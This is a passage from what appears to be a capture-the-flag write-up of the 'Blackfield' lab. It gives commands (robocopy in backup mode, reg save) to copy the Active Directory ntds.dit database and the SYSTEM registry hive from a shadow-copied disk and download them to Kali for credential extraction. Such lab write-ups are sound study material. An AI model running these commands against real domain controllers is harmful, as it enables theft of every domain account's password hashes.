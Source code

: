 ![](Pictures/Blackfield/evil4.png)

When the disk is mounted, in this case O: you can copy the ntds.dit file with robocopy.exe. Robocopy seems to be a standard tool in Windows since Windows Vista.

```
robocopy.exe "O:\Windows\NTDS" "C:\Windows\Temp" ntds.dit /b
```

If this for some reason doesn’t work try <a href="https://github.com/giuliano108/SeBackupPrivilege">this</a> method:


You also need the SYSTEM file from the Registry hive. You can copythe file with robocopy or just save it from the Registry.

```
reg save HKLM\SYSTEM C:\Windows\Temp\system
```

or

```
robocopy.exe "O:\Windows\system32\config" "C:\Windows\Temp" SYSTEM/b
```

Download the ntds.dit and the SYSTEM file to the local Kali machine.


![](Pictures/Blackfield/evil5.png)
